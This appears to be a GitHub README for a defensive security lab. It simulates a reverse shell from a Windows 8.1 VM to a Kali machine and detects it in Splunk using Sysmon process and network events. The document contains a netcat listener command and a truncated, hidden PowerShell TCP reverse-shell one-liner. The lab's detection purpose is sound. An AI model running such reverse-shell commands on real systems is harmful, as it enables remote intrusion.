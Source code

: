 # Reverse Shell 

This lab simulates a reverse on a Windows 8.1 VM and detects it using Splunk. It follows MITRE ATT&CK techniques:
- T1059.001 - PowerShell, 
- T1059.003 - Windows Command Shell

---

## 🛠️ Lab Setup

### Machines
- **Attacker**: Kali Linux (Hydra, smbclient)
- **Victim**: Windows 8.1 (Build 9600) with:
  - Sysmon
  - Splunk Universal Forwarder
- **SIEM**: Splunk Enterprise (host machine)

### Tools Used
- `netcat`: for reverse shell handling
- `Sysmon`: for process and network monitoring
- `Splunk`: for log ingestion and analysis

---

## 🧪 Attack Steps

- Ran nc -lnvp 4444 from Kali to open connection form windows.

- Simulated a reverse shell (PowerShell/cmd) from the Windows VM to Kali listener on a non-standard port.

# PowerShell TCP reverse shell (single-line; run in isolated lab only):

   powershell -NoP -NonI -W Hidden -Command "$client=New-Object System.Net.Sockets.TcpClient(\'192.168.29.30\',4444)

- Detection: Correlate Sysmon EventID=1 (process create) with EventID=3 (network connection) for the same ProcessId / commandline.
   ```spl
    index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" (EventCode=1 OR EventCode=3)
    | transaction ProcessId maxspan=1m
    | search Image="*powershell.exe" OR Image="*cmd.exe"
    | table _time, ProcessId, Image, CommandLine, src_ip, dest_ip, dest_port
   ```


